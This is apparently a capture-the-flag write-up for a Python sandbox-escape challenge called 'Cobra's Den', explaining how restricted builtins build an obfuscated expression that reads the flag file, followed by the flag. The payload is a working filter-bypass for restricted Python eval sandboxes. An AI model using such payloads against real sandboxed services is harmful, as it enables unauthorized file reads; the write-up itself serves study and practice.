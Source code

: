 # Cobra's Den

It is python jailbreak. We can use ['abs', 'chr', 'hash', 'open', 'ord', 'repr'] and '<ph[(cobras.den)]+~'.
 - make str with `repr(object)`
 - make int(= 1) with `abs(hash(())+~hash(()))`

Then we can execute `open('flag').read()`.

```python
open(chr(ord(repr(hash)[abs(hash(())+~hash(()))])+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(())))+chr(ord(repr(hash)[abs(hash(())+~hash(()))])+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(())))+chr(ord(repr(hash)[abs(hash(())+~hash(()))])+hash(())+~hash(()))+chr(ord(repr(hash)[abs(hash(())+~hash(()))])+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(()))+abs(hash(())+~hash(())))).read()
```

flag is: **irisctf{pyth0n_has_s(+([]<[]))me_whacky_sh(+([]<[[]]))t}**